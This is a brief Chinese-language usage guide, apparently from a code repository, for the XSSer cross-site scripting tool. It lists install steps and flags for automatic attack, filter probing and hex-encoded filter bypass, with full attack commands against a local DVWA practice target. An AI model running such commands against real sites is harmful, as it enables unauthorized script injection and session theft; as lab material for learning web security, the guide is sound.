 # xsser使用指南

## 安装方法
 在 http://www.bubuko.com/infodetail-516700.html 下载ubuntu版，
 打开安装
 在终端输入xsser确认是否安装成功
 如需查看源码，可下载源码版本

## 攻击方法
指令可以参考  https://blog.csdn.net/emaste_r/article/details/8072323
下面罗列一些经测试可以使用的指令
### 基本格式
 以dvwa为例，需要提供待攻击网站的url和cookie      
 
 python xsser.py -u "http://127.0.0.1/vulnerabilities/xss_r/?name=" --cookie="security=low; PHPSESSID=irlo67ci48k9eh3qluc57gjr80"
 url提示了攻击插入点
    
 ### 可添加的指令
 #### 输出结果相关
       -s -v  显示更多输出信息
 #### 自动化攻击
    -auto用于自动攻击
 #### 校验器
    用来测试网站有没有过滤攻击的手段  
        --heuristic  测试哪些字符没有被屏蔽  
 #### 选择bypasser
    --Hex 使用16进制编码
     强大的攻击方式，对于dvwa初级中级攻击尝试全部成功
     对于高级仍然有80%以上命中率
 #### 特殊技巧
     --Xsa 跨站Agent 脚本
 ## 示例 
    python xsser.py -u "http://127.0.0.1/vulnerabilities/xss_r/?name=" --cookie="security=low; PHPSESSID=a1lhrbjm0ifv8ju6qknfd685j6" --auto -  s -v --reverse-check --Hex   
自动攻击，显示详细信息，以16进制编码    
强大的攻击方式，初级中级全部攻破

更详细的英文版本访问 http://www.bubuko.com/infodetail-516700.html
